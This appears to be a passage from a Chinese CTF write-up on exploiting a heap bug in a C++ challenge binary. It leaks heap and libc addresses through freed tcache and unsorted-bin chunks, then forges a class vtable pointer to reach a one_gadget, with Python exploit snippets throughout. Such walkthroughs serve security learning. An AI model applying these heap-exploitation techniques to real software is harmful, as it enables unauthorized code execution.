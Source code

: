 ```python
    new(0, 'a' * 0x780)
    # class0, name0
    set(0)
    new(0, 'b' * 0x30)
```

这时候, show/eat对应的class堆块已经是被free的了, 此时bin中:tcache->class0, name0在unsortedbin中, show的时候运行的大概是`write(0, class->buf, class->buf_size)`, 此时class0->buf=tcache+0x10, class0->buf_size=0x780, 

![image-20210727113647478](https://i.loli.net/2021/07/27/5hcgOITe3PkvNbi.png)

这时候直接show, 可以获取tcache内堆块,可以拿到堆地址,

```python
    show()
    ru("name: ")
    re(0x48, 2)
    heap = u64(re(8, 2))
    slog['heap'] = heap
    bheap = heap - 0x13290
    slog['bheap'] = bheap
    unsorted_chunk = 0x13af0 + bheap
    slog['unsorted_chunk'] = unsorted_chunk
```

然后获取到我们输入的name0(unsorted_chunk), 

新建class1, 输入len(name1)=0x18, 在string的机制里,可以获取到一个`0x30`大小chunk, 即获取到class0, 然后我们的输入可以伪造class的前0x18字节, 即`class0->fun`, `class->buf`, `class->buf_size`, 此时伪造func没有意义, 我们伪造buf指向在unsortedbin中的那个chunk, 打印出main_aeran, 

```python

    payload = flat(0, unsorted_chunk+0x10, 0x100)
    new(1, payload)

    show()
    ru("name: ")
    while (1):
        main_arean = u64(re(8, 2))
        if main_arean == 0x3a6563696f68630a:
            raise EOFError;
        libc = main_arean - 0x3ebca0
        if (libc & 0xfff == 0):
            break;
    slog['main_arean'] = main_arean 
    slog['libc'] = libc 
```

因为两种class是随机的, 所以会有概率性能否获取到, 而且堆风水也概率性, 这里选择buf_size加大, 然后直接用了个循环, 在这些空间尝试读取, 仍然不行的话就算了, 

后续拿到libc以后, 我们可以通过docker了解到他使用ubuntu18.04, 

于是再次使用类似的手段,只是获取到class以后, 修改`class->fun`然后直接eat运行onegadget即可.

> 注意的一点是class->func类型是双重指针,他先指向vtable, 然后vtable指向的最后要调用的函数地址,  因此我们先写上onegadget 存放的地址, 在写上onegadget, 
>
> 此时已经知道堆地址, 也就直接写在后面了, 
